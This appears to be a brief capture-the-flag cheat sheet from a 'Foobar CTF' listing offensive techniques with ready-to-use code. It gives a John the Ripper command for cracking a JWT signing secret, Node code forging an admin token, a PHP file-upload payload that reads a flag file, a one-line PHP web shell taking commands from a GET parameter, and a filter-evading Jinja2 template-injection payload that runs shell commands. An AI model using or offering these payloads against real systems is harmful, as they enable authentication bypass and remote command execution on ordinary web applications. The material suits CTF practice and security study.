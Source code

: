 # Foobar CTF

1. If JWT is given , try to see it via [JWT](https://jwt.io/) . Now we need a valid and secret signature to crack it. One way to do it is via John . <code> john --wordlist=/home/luc/Pobrane/rockyou.txt --format=HMAC-SHA256 jwt.txt </code> and then <code> john --show jwt.txt </code> Now you are good to go .
Code For Node ->
    ```js
    $ node 
    > const jwt = require('jsonwebtoken')
    > var token = jwt.sign({ 'user': 'admin' },'badboy', { algorithm:'HS256',noTimestamp:true});
    > console.log(token) 
    ```

2. There was a server side template injection problem . You can refer to [SSTI](https://szymanski.ninja/en/ctfwriteups/2021/foobar/lotion/) for details.

3. If you get upload vulnreability try to upload this php code 
    ```php
        <?php
        $filestring = file_get_contents('/home/user/flag/flag.txt');
        print $filestring;
        ?> 
    ```
4. Or you can try 
    ```php
    <?php system($_GET['cmd']); ?>
    ```
5. SSTI Vuln -> ```{{config|attr('__class__')|attr('__init__')|attr('__globals__')|attr('__getitem__')('os')|attr('popen')('ls')|attr('read')()}}```
